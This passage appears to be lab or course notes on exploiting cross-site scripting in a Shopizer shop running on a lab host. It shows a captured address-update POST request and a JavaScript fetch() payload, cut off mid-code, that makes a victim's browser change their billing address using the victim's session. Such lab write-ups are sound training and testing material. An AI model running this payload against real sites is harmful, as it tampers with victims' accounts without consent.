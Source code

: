 Let's click on `Billing & shipping information` and then click on `Add a new address`.

![[Pasted image 20241223173513.png]]
Let's fill out the form with some placeholder values and submit it by clicking the _CHANGE ADDRESS_ button so we have a sample request.

```bash
POST /shop/customer/updateAddress.html HTTP/1.1
Host: shopizer:8080
Content-Length: 181
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://shopizer:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://shopizer:8080/shop/customer/editAddress.html?customerId=200&billingAddress=true
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=83F2660894517D88AD0C382551CDE39A; user=DEFAULT_test@test.local
Connection: keep-alive


customerId=200&billingAddress=true&firstName=test&lastName=test&company=&address=test&city=test&country=AL&stateProvince=test&postalCode=test&phone=test&submitAddress=Change+
```
![[Pasted image 20241223173807.png]]
We should be able to send a POST request like this using `Fetch()` or `XMLHttpRequest()`. However, there is a catch. The POST includes a `customerId` parameter, which we might need to extract from the victim user. Before we investigate how to do that, let's first use Repeater to send this POST with the `customerId` value empty and review the response. We'll also replace the first name value with a new value so we can verify if the update worked.

![[Pasted image 20241223173901.png]]

Excellent. We received an HTTP 200 response that includes the updated first name value. We won't have to worry about knowing the `customerId` value after all.
Our next step is to craft a JavaScript payload to send a similar request. We'll use the `fetch()` function to send the request and pass it the URL and an object containing the various configurations necessary for the request.

original
```javascript
01  fetch('http://shopizer:8080/shop/customer/updateAddress.html',{
02    method: 'POST',
03    mode: 'same-origin',
04    credentials: 'same-origin',
05    headers: {
06      'Content-Type':'application/x-www-form-urlencoded'
07    }, 
08    body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
09  })
```
without numbers `xsscinco2.js`
```js
fetch('http://shopizer:8080/shop/customer/updateAddress.html', {
  method: 'POST',
  mode: 'same-origin',
  credentials: 'same-origin',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  }, 
```